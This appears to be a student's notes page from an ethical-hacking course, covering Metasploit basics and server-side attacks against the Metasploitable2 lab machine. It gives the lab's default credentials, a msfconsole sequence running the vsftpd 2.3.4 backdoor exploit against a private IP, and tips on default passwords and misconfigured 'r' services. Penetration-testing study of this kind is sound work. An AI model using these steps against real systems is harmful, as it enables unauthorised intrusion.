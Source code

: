 ```yaml
---
title: "Learn Ethical Hacking From Scratch"
date: 2023-12-27T09:34:39+01:00
# weight: 1
# bookFlatSection: true
# bookToc: false
# bookHidden: true
# bookCollapseSection: true
# bookComments: true
# bookSearchExclude: true
---
```

<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/>

## Server side attacks
### Metasploitable2 - Metasploit framework
- Metasploitable2:username/password: msfadmin

### Metasploit framework
- Metasploit is an exploit development and execution tool. It can also be used to carry out other penetration testing tasks such as port scans, service identification and port exploitation tasks.
- Use:
  - msfconsole -  runs the metasploit console
  - help - shows help
  - show [something] - something can be exploits, payload or auxiliary
  - use [something] - use a certain exploit, payload or auxiliary
  - set [option][value] - configure [option] to have a value of [value]
  - exploit - runs the current task

Example
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.222.138
show options # show agains
exploit
```
### Server side attacks
- Need an IP address:
  - If target is on the same network: netdiscover or zenmap
  - If target has a domain, then ping them to return its IP
- As long as we can ping them, we can use server-side attacks.
- If target is a personal computer and connect via a private network, the IP might be useless as it maybe the router IP, not the target. In this case, we need to use client side attacks as reverse connection can be used

### Information gathering
- Try default password (ssh ipad case)
- Mis-configured services. Ex: "r" service, ports 512, 513, 514
- Some might contain a back door
- Code execution vulnerabilities
